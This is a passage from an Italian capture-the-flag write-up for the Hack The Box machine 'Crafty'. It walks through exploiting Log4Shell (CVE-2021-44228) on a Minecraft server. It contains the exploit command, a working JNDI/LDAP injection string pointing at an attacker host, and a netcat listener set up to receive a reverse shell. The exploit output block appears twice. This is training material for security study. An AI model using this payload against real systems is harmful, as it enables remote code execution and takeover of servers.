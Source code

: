 > [!NB] per scaricare il binario server un accunt Oracale che si può fare gratuitamente

Siamo pronti per eseguire il nostro exploit

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```

dove: 
-  `-- userip` è il nostro ip
-  `-- webport 8000` è il webserver LDAP in ascolto
-  `--lport 443` è il nostro nc in ascolto per ricevere la shell

inseriamo dal nostro client mincraft url JDNI/LDAP generato dal poc 

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# ./MinecraftClient-20240415-263-linux-x64 xrabbit "" 10.10.11.249
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Password(invisible):
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
${jndi:ldap://10.10.14.15:1389/a}
```

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```
